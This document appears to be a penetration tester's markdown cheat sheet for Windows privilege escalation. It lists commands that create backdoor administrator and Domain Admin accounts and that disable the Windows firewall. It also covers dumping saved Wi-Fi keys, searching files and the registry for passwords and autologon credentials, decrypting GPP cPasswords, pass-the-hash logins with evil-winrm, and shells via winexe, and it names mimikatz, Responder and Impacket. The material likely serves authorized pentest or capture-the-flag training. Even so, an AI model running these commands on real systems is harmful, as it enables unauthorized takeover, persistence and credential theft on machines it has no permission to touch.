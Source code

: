 #### Strategy
```
- stored creds
- kernel exploits
- DLL injection and hijacking
- insecure file/folder permissions
- insecure service permissions
- group policy preferences
- unquoted service path
- always install elevated
- token manipulation
- autologon user creds
- schedule tasks
```

#### Creating an account
```
- net user name Username12345678* /add /Y
- net localgroup administrators name /add
- net localgroup "Remote Desktop Users" name /add #access RDP
- net localgroup "Backup Operators" name /add #full acceess to files
- net group "Domain Admins" name /add /domain
- net user name /ACTIVE:YES /domain` #enables domain user account
```

#### System Enum
```
- systeminfo
- systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
- hostname
- wmic qfe
- wmic qfe get Caption,Description,HotFixID,InstalledOn
- wmic logicaldisk get caption,description,providername
- whoami /priv
- whoami /groups
- net user babis
- net localgroup
- net localgroup administrators
- C:\Program Files
  - search for vulns in all installed software
- sc start
- sc stop
- Restart service:
  - wmic service NAMEOFSERVICE call startservice
  - net stop [service name] && net start [service name]
- SSH keys
  - reg query 'HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys'
```

#### Network Enum
```
- ipconfig /all
- netstat -ano #listening ports
- route print #routing table
- arp -a
- Netsh wlan show profile
- Netsh wlan show profile <SSID> key=clear

```

#### Passwords
```
- findstr /si password *.txt
- findstr /si password *.txt *.config *.ini
```

#### AV Enum
```
- sc query windefend
- sc queryex type= service
- netsh advfirewall firewall dump
- netsh firewall show state
- netsh firewall show config
- netsh firewall set opmode mode=disable
- netsh advfirewall firewall set opmode mode=disable

```
#### Tools
```
- Powershell session
  - evil-winrm -i 10.10.10.10 -u username -H hash
- PowerUp
  - powershell -ep bypass
  - import powerup
  - ..\PowerUp.ps1
  - then:
  - invoke-AllChecks
  - let this run
- WinPEAS
- Windows-exploit-suggester.py
- Bloodhound
- crackmapexec/netexec
  - SMB relay, Kerberoasting, ASREP Roasting
  - hash passing
- Impacket all - secrets.py
- Mitm6
- mimikatz
- ldapdomaindump
- Responder
- PEASS-ng
```

#### Unquoted service paths
```
CMD line
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

PowerShell
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

#### AlwaysInstallElevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

#### Cached GPP Password
```
- Decrypt cPassword:
  - gpp-decrypt <cpasswordtext>
- crackmapexec smb 10.10.10.10 -u username -p pwd -M gpp_autologin
```

#### Registry keys
```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\OpenSSH\Agent\Key"
```

#### Auto logon
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"

Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon

If enabled: use creds to get schell
winexe -U 'admin%password123' //10.10.10.10 cmd.exe
```

#### Scheduled tasks
```
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

#### Sites:
- [LOLBAS](https://lolbas-project.github.io/#)
  - GTFObins of windows
- [hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

